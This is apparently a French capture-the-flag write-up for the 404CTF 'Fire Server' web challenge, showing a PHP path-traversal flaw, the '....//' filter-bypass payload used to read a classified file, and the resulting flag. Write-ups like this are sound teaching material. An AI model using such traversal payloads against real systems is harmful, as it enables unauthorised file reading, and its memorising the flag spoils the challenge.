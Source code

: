 Web - Fire Server 
=======================

Dans le docker file on trouve : 

.. code-block:: console 
            
    echo "Mission Selenium – Niveau 5 Confidentiel\nAnalyse de l’organisme prélevé sur la face cachée lunaire : activité bioélectrique persistante.\nExpérimentations poursuivies malgré les objections éthiques.\n404CTF{fakeflag}" > /var/files/classified/selenium && 


On sait quel fichier on souhaite récupérer : /var/files/classified/selenium 

Dans le fichier index.php on voit bien qu'il y a une local file inclusion : 

.. code-block:: php 

    $decodedPath = urldecode($path);
    $decodedPath = str_replace("../", "", $decodedPath);
    $fullPath = realpath($baseDir . $decodedPath);


On va donc faire : ?path=....//....//....//var/files/classified/selenium 

Le code va supprimer les ../ ce qui va donner ../../../var/files/classified/selenium

On obtient le flag : 

Mission Selenium – Niveau 5 Confidentiel 
Analyse de l’organisme prélevé sur la face cachée lunaire : activité bioélectrique persistante.
Expérimentations poursuivies malgré les objections éthiques.
404CTF{m0oN_S3cRe7s_4r3_bUr1eD_d33p}

Flag : **404CTF{m0oN_S3cRe7s_4r3_bUr1eD_d33p}**